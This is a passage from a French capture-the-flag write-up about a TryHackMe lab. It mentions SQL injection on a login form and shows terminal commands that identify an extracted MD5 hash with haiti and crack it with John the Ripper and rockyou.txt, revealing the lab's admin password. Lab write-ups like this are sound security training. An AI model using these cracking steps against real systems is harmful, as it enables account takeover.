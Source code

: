 On voit les champs d'identifications sont exploitables à la faille d'injection sql.  
On récupère le nom d'utilisateur admin, ainsi que le mot de passe sous forme de hash.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti 3eba6f73c19818c36ba8fea761a3ce6d
MD5 [HC: 0] [JtR: raw-md5]

tim@kali:~/Bureau/tryhackme/write-up$ echo '3eba6f73c19818c36ba8fea761a3ce6d' > hash  

tim@kali:~/Bureau/tryhackme/write-up$ john ./hash -w=/usr/share/wordlists/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetpandemonium (?)
1g 0:00:00:00 DONE (2021-11-04 21:57) 3.846g/s 4791Kp/s 4791Kc/s 4791KC/s sweety65..sweetloveibou
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

On détecte quel type hash c'est. 
On casse le hash avec john the ripper.   
On trouve que le mot de passe est : sweetpandemonium   

![page](./Task1-04.png) 
